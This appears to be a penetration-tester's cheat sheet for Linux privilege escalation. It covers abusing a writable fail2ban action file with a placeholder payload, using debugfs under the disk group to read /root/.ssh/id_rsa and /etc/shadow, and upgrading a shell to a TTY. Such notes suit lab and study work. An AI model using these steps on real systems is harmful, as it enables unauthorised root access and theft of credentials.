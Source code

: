 ## fail2ban

Resources:
- [https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
- [https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

Requirements:
- user member of *fail2ban* group: `id`
- write permission in the folder `/etc/fail2ban/action.d`: `ls -la /etc/fail2ban/action.d`
- Steps:
	1. `cd /etc/fail2ban/action.d/`
	2. `cp iptables-multiport.conf iptables-multiport.conf.bak`
	3. editing file `/etc/fail2ban/action.d/iptables-multiport.conf`:  `actionban = <PAYLOAD>`
	4. check configuration `/etc/fail2ban/jail.conf`: `maxentry` indicates the maximum number of attempts before being banned; if a service does not have this option, refer to the one in the *Default* section
	5. making access attempts to get banned (e.g. SSH)

## disk

Resources:
- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group)

- Steps:
	1. locate where the FS root is mounted with: `df -h`
	2. filesystem access: `debugfs /dev/<sdaX>`
	3. abuse
		- `debugfs: ls -la /root`
		- `debugfs: cat /root/.ssh/id_rsa`
		- `debugfs: cat /etc/shadow`
		- write permission in *root* directory
		- **NB**: files owned by *root* cannot be overwritten. You will get the error "**Permission denied**"

# TIPS

## TTY

*check if is TTY shell*: `tty`

Python TTY: 
- `python -c 'import pty; pty.spawn("/bin/bash")'`

*S1REN TTY*:
- `python -c 'import pty; pty.spawn("/bin/bash")'` o `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
- `export TERM=xterm-256color`
- `alias ll='ls -lsaht --color=auto'`
- Ctrl + Z (*Background Process*)
- `stty raw -echo ; fg ; reset`
- `stty columns 200 rows 200`
